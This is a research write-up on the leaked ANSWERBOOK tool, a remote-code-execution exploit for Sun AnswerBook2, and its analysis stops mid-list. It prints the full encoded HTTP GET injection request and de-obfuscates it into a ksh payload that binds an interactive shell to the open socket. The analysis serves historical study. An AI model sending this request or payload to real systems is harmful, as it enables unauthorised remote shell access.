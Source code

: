 ### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)

[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# ANSWERBOOK

ANSWERBOOK is an RCE exploit for Sun Answerbook2. Given the software and the opsnotes, it's likely that this exploit was used around 2000-2005.

According to [abopscript.txt](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/abopscript.txt) it will trigger a shell using the following HTTP GET command:
```
GET /ab2/@LegacyPageView?ps=`echo%20"\%0A(/bin/ksh<<\%2B%0As=63%0Awhile%20[%20ABC%20-gt%208%20]%0Ado%0A[[%20-S%20/dev/fd/ABC%20]]%20%26%26%20break%0A((s=ABC-1))%0Adone%0A[%20ABC%20-gt%208%20]%20%26%26%20exec%20sh%20-i%20</dev/fd/ABC%20>%20/dev/fd/ABC%202>%261%20%26%0A%2B%0A)2>/dev/null%26%0A"%20|%20sed%20's/ABC/$s/g'%20|%20sh` HTTP/1.0
```

Cleaning up the command a bit:
```
echo "\
(/bin/ksh<<\+
s=63
while [ ABC -gt 8 ]
do
[[ -S /dev/fd/ABC ]] && break
((s=ABC-1))
done
[ ABC -gt 8 ] && exec sh -i </dev/fd/ABC > /dev/fd/ABC 2>&1 &
+
)2>/dev/null&
" | sed 's/ABC/$s/g' | sh
```

Cleaning it even more, it runs this command using `sh`:
```
(/bin/ksh<<\+
	s=63
	while [ $s -gt 8 ]
	do
		[[ -S /dev/fd/$s ]] && break
		((s=$s-1))
	done
	[ $s -gt 8 ] && exec sh -i </dev/fd/$s > /dev/fd/$s 2>&1 &
+
)2>/dev/null &
```

The `<<\+` until the `+` is a HEREDOC, essentially executing the commands with `/bin/ksh`. It will find a find a filedescriptor (bigger than 8) that is a socket and redirect the input and output to a shell, giving the Operator a shell.

## Reason for 2000-2005

Above, I vaguely mention that according to the opsnotes and software, the exploit was used in the period of 2000-2005. The reasons for this are:

* `/tmp/.X11R6`: as "work" folder for an Operation.
* The use of nosy
